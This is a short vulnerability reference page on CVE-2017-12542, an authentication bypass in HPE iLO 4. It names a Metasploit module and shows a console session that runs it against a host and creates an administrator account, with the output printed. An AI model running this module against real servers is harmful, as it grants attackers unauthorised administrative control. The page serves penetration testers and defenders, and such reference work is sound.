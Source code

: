 ```yaml
---
title : "CVE-2017-12542"
# pre : ' '
description : "A authentication bypass and execution of code vulnerability in HPE Integrated Lights-out 4 (iLO 4) version prior to 2.53."
date : 2020-03-11T12:41:23+01:00
# hidden : true
# draft : true
weight : 0
# tags : [""]
---
```


## CVE-2017-12542 - HP iLO 4 1.00-2.50 Authentication Bypass Administrator Account Creation

### Usage

```plain
msf5 > use auxiliary/admin/hp/hp_ilo_create_admin_account
```

### Examples

```plain
msf5 > use auxiliary/admin/hp/hp_ilo_create_admin_account
msf5 auxiliary(admin/hp/hp_ilo_create_admin_account) > set RHOSTS 10.10.10.16
msf5 auxiliary(admin/hp/hp_ilo_create_admin_account) > set USERNAME MyAdmin
msf5 auxiliary(admin/hp/hp_ilo_create_admin_account) > run
[*] Running module against 10.10.10.16

[*] Trying to create account MyAdmin...
[+] Account MyAdmin/A7ay2i110sSa created successfully.
[*] Auxiliary module execution completed[/code]
```

### URL list

* [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2017-12542)
* [Exploit-db.com](https://www.exploit-db.com/exploits/44005)
* [Support.hpe.com](https://support.hpe.com/hpesc/public/docDisplay?docId=emr_na-hpesbhf03769en_us)
